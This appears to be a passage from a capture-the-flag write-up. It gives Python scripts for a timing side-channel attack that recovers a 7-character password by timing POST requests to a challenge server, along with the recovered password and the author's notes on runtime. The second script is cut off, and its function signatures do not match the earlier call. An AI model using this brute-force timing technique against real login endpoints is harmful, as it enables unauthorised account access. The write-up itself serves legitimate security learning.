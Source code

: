 ```python
def main():
    currentPassword = '#' * length

    for position in range(length):
        print(f'Finding character at position {position + 1}...')

        TPassword_list = generate(currentPassword, position)

        while True:
            correctPassword = TPassword(TPassword_list)
            correctChar = correctPassword[position]

            if correctChar:
                currentPassword = currentPassword[:position] + correctChar + currentPassword[position + 1:]
                print(f'Updated password: {currentPassword}')
                break
            else:
                print('No correct character found')
                break

    print(f'Final password: {currentPassword}')

if __name__ == "__main__":
    main()

```

```python
Updated password: zExQWkq
Final password: zExQWkq
```

That took about 18 minutes that is too long to compensate for the given 10 minutes of instance time. During the CTF, @MrRobot solved the challenge [Shout-out to him], but since my code takes about 18 minutes to run, I found 5 valid characters in the first 10 minutes, then re-launched the instance to find the remaining two. I’ll try to improvise the code efficiency later. Here is a much efficient script that runs in right about 11 minutes, we find 6 characters here. It’s now a race against time LOL.

```python
import requests
import time

url = 'http://34.31.154.223:56366'

length = 7
charset = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
margin = 0.2

def generate(currentPassword, position):
    TPassword = []
    for char in charset:
        testPassword = currentPassword[:position] + char + '#' * (length - position - 1)
        TPassword.append(testPassword)
    return TPassword

def TPassword(TPassword, CDelay):
    max_time = 0
    correctPassword = ''

    for password in TPassword:
        start_time = time.time()
        response = requests.post(url, data={'password': password})
        ETime = time.time() - start_time
```